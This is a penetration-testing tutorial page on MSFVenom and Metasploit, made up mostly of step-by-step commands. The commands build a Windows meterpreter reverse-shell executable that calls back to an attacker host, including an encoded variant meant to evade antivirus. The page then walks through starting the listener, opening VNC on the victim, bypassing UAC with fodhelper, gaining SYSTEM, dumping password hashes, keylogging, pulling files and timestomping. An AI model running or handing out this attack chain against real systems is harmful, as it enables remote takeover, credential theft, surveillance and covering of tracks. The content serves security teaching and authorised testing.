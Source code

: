 ```yaml
---
path: "/tutorials/securitypentesttools/msfvenom"
date: "2020-04-06"
title: "MSFVenom"
---
```


MSFVenom is a tool used to create malicious payloads for the Metasploit framework. The Metasploit framework is a tool for developing and executing remote exploits on a vulnerable target. Tools within the framework allow you to complete various stages of a penetration test.

#### Establishing a VNC Session
MSFVenom can be used to create lots of different types of payload. One of these can be used to establish a VNC session on a remote host. Virtual Network Computing (VNC) is a system that allows remote graphical connections to a host, this allows you to use the device remotely as though you were sitting in front of it. There are a number of VNC variants offering different features. Establishing a malicious VNC session on a target machine gives you a good foothold in a target network.

Generating a payload is simple enough:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attackerIP> LPORT=<myPort> -o /root/Desktop/evil.exe
```
* *-p* - Specifies the payload we'd like to use. There are a large number of payloads to choose from.
* *--platform* - This is where you choose the platform the payload is for. Use the man page to discover the available payloads.
* *-a* - Architecture the exploit will run on.
* *-f* - The format of the output file
* *LHOST* - For this exploit this is how you specify the IP address of the listening machine
* *LPORT* - Similar to the above this is how you specify the port the listener will listen on.
* *-o* - The name and location of the output file.

This will generate an exe file that can run on Windows. 

We'll now start the listener on our attacker machine.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit
```

The listener is now setup.

During a normal penetration test you would have to find a way to get the file onto a target machine, this is the tricky part but I won't be telling you how to do it.

Once the user runs your exe file the system will be compromised. You'll see that the listener opens a meterpreter session and displays the IP and port of the listener and the victim.

Now we can use the established connection to tamper with the victim machine.

```bash
session -i 1
sysinfo
run vnc
```
* *session -i 1* - This ensures we are using session 1.
* *sysinfo* - Displays basic information about the system the session is open on.
* *run vnc* - Opens up a VNC session on the infected machine. Once this command is run you will see a screen appear showing the user's desktop.

**N.B** The exploit that we have created using MSFVenom will likely be caught by most standard antivirus tools. The are methods to reduce the chance of detection, but I won't go into detail for this section.




#### Escalating Privileges
Escalating privilege is an essential part of any penetration test. This allows you to compromise a normal user account and then increase your level of privilege, enabling you to perform further actions on your victim's network/device.

To generate the exploit generate our payload we'll use the following command:
```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" -f exe LHOST=<attackerIP> -f Desktop/escalation.exe
```

This is similar to the command we used to create the previous payload with a few key differences.

* *-e* - Sets the encoding on the output file. This can help to avoid detection by antivirus, however, a lot of scanners will still detect this.
* *-b* - You can provide a list of characters to avoid.
* *-f* - Where you're outputting the file.

Start the listener on our attacker machine.

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit -j -z
```

Again you'll have to figure out how to get this onto the target machine. Once the target has run the exe you'll have a session established with the target. Make the session interactive and grab the current user's username.

```bash
session -i 1
getuid
```

Depending on the user's privilege level you won't be able to perform administrator type actions. We now want to escalate our privileges so that we 'own' the system.

```bash
background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
```

* *background* - Sends the current session to the background so you can perform the next tasks.
* *use exploit/windows/local/bypassuac_fodhelper* - Sets the exploit you want to use.
* *set SESSION 1* - Sets the SESSION variable for the exploit. **N.B.** Different exploits use different variables, to see the available options and a description use the `show options` command.

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
set TARGET 0
exploit
```

You should now have a new meterpreter session open.

```bash
getsystem -t 1
```
This should have escalated your privileges to the 'SYSTEM' account. If you use `getuid` you should see the username is now SYSTEM.

We can now dump the password hashes of users on the system as well as password hints.

```bash
run post/windows/gather/smart_hashdump
```

If this command works then you have successfully escalated you privilege. Well done!

####Post Exploitation Activities
So you've compromised a device and escalated your privileges, now what?

Well you can do any number of things. I'll show you some of the things you might want to do. 

* *ls* - Lists the current directory contents.
* *cd* - Change directory.
* *pwd* - Prints the current directory.
* *timestomp secret.txt -v* Alters the Modified, Access, Created, Entry Modified (MACE) attributes.
* *download myFile.doc* - Downloads the specified document to your machine.
* *search -f "myFile.doc"* - Searches for files on the system. You can search in specific folders or the whole system.
* *keyscan_start* - Initiates key capturing on the victim.
* *keyscan_dump* - Dumps the keystrokes to the terminal
* *idletime* - Displays the time, in seconds, the system has been idle.
* *shutdown* - Shutdowns the victim's machine.